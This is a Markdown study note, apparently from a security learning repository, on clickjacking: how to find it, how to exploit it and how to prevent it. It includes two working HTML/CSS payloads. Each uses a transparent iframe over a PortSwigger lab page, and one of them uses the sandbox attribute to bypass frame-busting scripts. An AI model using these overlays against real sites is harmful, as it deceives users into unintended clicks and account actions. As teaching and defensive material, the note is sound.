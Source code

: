 # Clickjacking
---

## What Is Clickjacking?
Clickjacking is a type of attack that fools a user into clicking on one thing when the user is actually clicking on another thing

### Types Of Clickjacking
* <b>Likejacking</b>: This aims to grab user's clicks and redirect them to "likes" on  social media websites
* <b>Cookiejacking</b>: This involves getting a user to perform a set of actions interacting with the UI to provide the attacker with cookies stored in the browser
* <b>Filejacking</b>: This involves getting the user to allow the attacker to access their local file system and take files

### Impact Of Clickjacking Vulnerabilities
* Depends on the goal of the attacker .
    * **C**onfidentiality – Could be Low, Medium or High.
    * **I**ntegrity – Could be Low, Medium or High.
    * **A**vailability – Could be Low, Medium or High.

---

## How To Find Clickjacking Vulnerabilities?

Depends on the perspective of testing.

### Blackbox Testing
* Map the application
    * Visit all pages in the application and make note of all the response headers
        * Look for the X-Frame-Options and Content-Security-Policy response headers
* If X-Frame-Options header is set to "deny" or "sameorigin" that means the application is likely not vulnerable to clickjacking
* If the Content-Security-Policy header uses the directive frame-ancestors and that's set to "none" or "self", then the application is likely not vulnerable to clickjacking
    * If it contains domains, review any wildcard configuration
* Test identified instances of clickjacking vulnerabilities and develop a proof of concept

### Whitebox Testing
* Identify the framework that the application is using
    * Identify if the framework has built in defenses to prevent clickjacking vulnerabilities
    * Identify if any libraries have been imported to configure headers
* Review the set configuration to ensure that it is secure
* Test identified instances of clickjacking vulnerabilities and develop a proof of concept

---

## How To Exploit Clickjacking Vulnerabilities?

### Basic Clickjacking Attack

```javascript
<style>
    iframe{
        position:relative;
        width:1000px;
        height:1000px;
        opacity:0.00001;
        z-index:2;
    }
        div{
         position:absolute;
         top:515px;
         left:50px;
         z-index:1;
     }
</style>
    <div>Click Me</div>
    <iframe src="https://web-security-academy.net/my-account"></iframe>
```
### Bypassing Frame Busting Scripts
```javascript
<style>
    iframe{
        position:relative;
        width:1000px;
        height:1000px;
        opacity:0.00001;
        z-index:2;
    }
        div{
         position:absolute;
         top:515px;
         left:50px;
         z-index:1;
     }
</style>
    <div>Click Me</div>
    <iframe sandbox="allow-forms" src="https://web-security-academy.net/my-account"></iframe>
```

---

## How To Prevent Clickjacking Vulnerabilities?
There are three main mechanisms that can be used to defend against clickjacking attacks: 
* Defending with X-Frame-Options response header
* Defending with Content Security Policy (CSP) frame-ancestors directive
* Defending with SameSite cookies

#### X-Frame-Options
The **X-Frame-Options** HTTP response header can be used to indicate whether or not a browser should be allowed to render a page in a `<frame>` or `</iframe>`

There are three possible values for the X-Frame-Options header:
* DENY
`X-Frame-Options: deny`
* SAMEORIGIN
`X-Frame-Options: sameorigin`
* ALLOW_FROM origin
`X-Frame-Optiosn: allow-from https://legitimate-site.com`

This defense mechanism contains the following limitations: 
* This is a per-page policy specification
* The ALLOW-FROM option is obsolete and no longer works in modern browsers
* Multiple options are not supported

#### Content Security Policy (CSP)
The **Content-Security-Policy** HTTP response header allows website administrators to control resources the user agent is allowed to load for a given page

Use of CSP frame-ancestors:
* Prevent any domain from framing the content
`Content-Security-Policy: frame-ancestors 'none';`
* Only allow the current site to frame the content
`Content-Security-Policy: frame-ancestors 'self';`
* Allow multiple sites (specified) to frame the content
`Content-Security-Policy: frame-ancestors 'self' *.somesite.com https://site.com;`

This defense mechanism contains the following limitation: 
* CSP frame-ancestors is not supported by all the major browsers yet.

#### SameSite Cookies
The **SameSite** is a cookie attribute that determines when a website's cookies are included in requests originating from other domains.
It's usually used as a defense agains CSRF attacks.
* Strict
`Set-Cookie: session=aiuflha90$12FSDASd; SameSite = Strict`
* Lax
`Set-Cookie: session=aiuflha90$12FSDASd; SameSite = Lax`
The use of this attribute should be considered as part of defense-in-depth approach

This defense mechanism contains the following limitations: 
* If the clickjacking attack does not require the user to be authenticated, this defense mechanism will not work
* The SameSite attribute is suported by most browsers, however, there's a small number of browsers that do not support it

---

## Resources
* [Web Security Academy - Clickjacking (UI redressing)](https://portswigger.net/web-security/clickjacking)
* [OWASP Clickjacking Defense Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Clickjacking_Defense_Cheat_Sheet.html)
* [OWASP WSTG – Testing for Clickjacking](https://owasp.org/www-project-web-security-testing-guide/v41/4-Web_Application_Security_Testing/11-Client_Side_Testing/09-Testing_for_Clickjacking)